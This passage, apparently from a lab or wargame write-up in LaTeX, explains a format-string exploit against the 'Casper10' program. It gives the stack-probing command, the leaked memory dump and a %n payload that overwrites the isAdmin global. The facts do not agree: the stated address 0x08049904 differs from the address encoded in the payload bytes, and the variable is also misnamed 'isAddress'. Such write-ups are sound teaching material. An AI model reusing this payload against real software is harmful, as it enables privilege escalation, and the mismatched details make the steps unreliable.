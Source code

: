 \subsubsection{Exploit}
The idea behind this exploit is relatively simple: the wrong \texttt{printf} use makes it possible to pass as an argument a string containing the \texttt{isAdmin}'s memory address and some positional parameters to skip space and write the memory. This procedure hides some subtle troubles. First of all, it is necessary to know the address of \texttt{isAdmin}. This can be easily determined with \texttt{gdb}, and corresponds to \texttt{0x08049904}. Next, it is fundamental to know the distance between the end of the stack frame and the beginning of the format string memory. This can be determined using the same vulnerability, but in its ``reading'' version. In order to do so, the following command has been used: \\
\texttt{/casper/casper10 AAAA\$(python -c ``print '\%08x.'*40'')}\\
It printed the following string: \\
\texttt{
	Hello AAAA080486d0.bffff74a.00000000.00000001.0000094e.b7fdce08.\\
	bffff74a.6548e5f9.206f6c6c.\colorbox{yellow}{41414141}.78383025.3830252e.30252e78.\\
	252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.\\
	78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.\\
	30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.\\
	2e783830.78383025.3830252e.30252e78.252e7838.2e783830.!} \\
As you can see, \texttt{41414141} is highlighted. It corresponds to the string \texttt{AAAA} placed at the beginning of the format string. A simple count of the bytes before \texttt{41414141} gives the distance between the end of the stack frame and the beginning of the format string memory. This number is nine. Now the following information is available:
\begin{itemize}
	\item \texttt{isAddress} is at \texttt{0x08049904};
	\item Nine bytes are above the format string memory.
\end{itemize}
The exploit aims to ``jump'' those nine bytes, and then write in a memory location corresponding to \texttt{isAdmin}'s address. Hence, the following command is used to exploit Casper10:\\
\texttt{\$(printf ``$\backslash$x40$\backslash$x99$\backslash$x04$\backslash$x08'')\%x\%x\%x\%x\%x\%x\%x\%x\%100x\%n} \\
The first part prints the address of the global variable the exploit aims to overwrite. Afterwards, nine format parameters (\texttt{\%x}) are provided. They are only needed to step through memory. In the end, \texttt{\%n} requests to write the memory address specified at the beginning of the string. 100 makes \texttt{printf} write a non-zero value. 

